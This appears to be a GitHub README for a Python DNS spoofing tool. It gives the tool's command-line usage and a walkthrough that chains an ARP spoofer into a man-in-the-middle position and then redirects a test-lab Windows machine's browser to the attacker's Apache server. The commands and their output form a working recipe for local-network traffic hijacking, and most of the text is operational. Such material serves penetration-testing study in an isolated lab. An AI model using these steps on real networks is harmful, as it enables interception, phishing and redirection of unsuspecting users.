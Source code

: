 # DNS Spoofer

## Requirements

* Python 3
* Scapy and netfilter modules
* Domain to be spoofed
* IP address webserver to redirect to

## Usage

```shell
usage: dns_spoofer.py [-h] [-d DOMAIN] [-r IP] [-q DESTINATION]

DNS spoof tool

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain to spoof
  -r IP, --ip IP        IP address to redirect to
  -q DESTINATION, --destination DESTINATION
                        Forward or local

Example: 
            dns_spoofer.py -q forward               # spoof domain on target (Windows)
            dns_spoofer.py -d sqa.fyicenter.com     # domain
            dns_spoofer.py -r 192.168.122.108       # redirection address
            dns_spoofer.py                          # with defaults local, apache2 and sqa.fyicenter.com
```

### Kicking the tyres

Choose a domain to spoof and check it is reachable:

```shell
@kali:~$ ping -c 1 sqa.fyicenter.com
PING sqa.fyicenter.com (74.208.236.35) 56(84) bytes of data.
64 bytes from 74-208-236-35.elastic-ssl.ui-r.com (74.208.236.35): icmp_seq=1 ttl=52 time=131 ms

--- sqa.fyicenter.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 131.125/131.125/131.125/0.000 ms

```

Become MitM by running the [arp_spoofer](/arp_spoofer)

```shell
@kali:~$ sudo python3 arp_spoofer.py
[sudo] password for <user>: 
[+] Setting forward
[+] Packets sent: 63
```

Run DNS spoofer:

```shell
@kali:~$ sudo python3 dns_spoofer.py -q forward
[+] Starting apache2 service...
              
```

On Windows testlab machine, visit http://sqa.fyicenter.com in browser and check that the Kali apache server comes up instead.

```shell
@kali:~$ sudo python3 dns_spoofer.py
[+] Starting apache2 service...
[+] Spoofing Target
                   
```

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)